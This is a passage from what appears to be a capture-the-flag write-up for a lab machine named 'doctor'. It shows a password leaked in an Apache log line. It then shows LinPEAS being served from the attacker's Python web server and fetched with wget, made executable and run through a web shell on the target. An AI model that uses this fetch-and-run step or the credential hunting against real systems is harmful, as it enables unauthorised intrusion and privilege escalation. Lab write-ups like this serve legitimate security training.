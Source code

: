 ```
Binary file ./journal/62307f5876ce4bdeb1a4be33bebfb978/system@68325fc054024f8aac6fcf2ce991a876-0000000000033c8f-0005afad8045c159.journal matches

```

This line from the Apache logs is interesting:

```

./apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"

```

“Guitar123” doesn’t look like an email address. It looks like a password.

#### LinPEAS

If I hadn’t checked manually, [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) would have also found this for me. I’ll host it from a Python web server on my host:

```

root@kali:/opt/privilege-escalation-awesome-scripts-suite/linPEAS# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Now from my web shell, I can download it, make it executable, and run it:

```

web@doctor:/dev/shm$ wget 10.10.14.6/linpeas.sh                                                                                                                                                           
--2020-11-01 12:23:16--  http://10.10.14.6/linpeas.sh                                                                                                                                                     Connecting to 10.10.14.6:80... connected.                                                                                                                                                                 
HTTP request sent, awaiting response... 200 OK                                                       
Length: 159864 (156K) [text/x-sh]                                                                                                                                                                         
Saving to: ‘linpeas.sh’                                                                                                                                                                                   
                                                                                                                                                                                                          
linpeas.sh          100%[===================>] 156,12K  --.-KB/s    in 0,06s                                                                                                                              
                                                                                                                                                                                                          2020-11-01 12:23:16 (2,69 MB/s) - ‘linpeas.sh’ saved [159864/159864]                                                                                                                                      
                                                                                                     
web@doctor:/dev/shm$ chmod +x ./linpeas.sh                                                                                                                                                                web@doctor:/dev/shm$ ./linpeas.sh
...[snip]...

```
